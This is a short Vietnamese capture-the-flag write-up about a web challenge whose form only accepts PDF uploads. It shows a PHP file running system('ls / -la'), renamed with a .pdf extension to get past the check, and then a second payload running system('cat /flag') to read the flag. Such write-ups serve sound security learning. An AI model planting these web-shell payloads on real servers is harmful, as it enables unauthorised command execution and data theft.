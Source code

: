 Challenge cho 1 form điền các thông tin và có chức năng upload file, nhưng mà bắt buộc là file pdf. Dự đoán bài này là file upload vuln.

![image](https://github.com/Llam-a/TTV-KCSC/assets/115911041/28386270-2772-46c6-b942-597f2015e5b1)

Mình upload 1 file php có content như sau:

```php
<?php system('ls / -la') ?>
```

Sau đó thì sửa lại là đuôi .pdf thi được kết quả như sau, ta có thể thấy có file flag

![image](https://github.com/Llam-a/TTV-KCSC/assets/115911041/f83a1591-9770-40f3-a70c-21438747c7e7)

Tiếp tục upload cat flag 

```php
<?php system('cat /flag') ?>
```

![image](https://github.com/Llam-a/TTV-KCSC/assets/115911041/cb192c1e-ca96-4c62-91e8-3b199eaf7118)
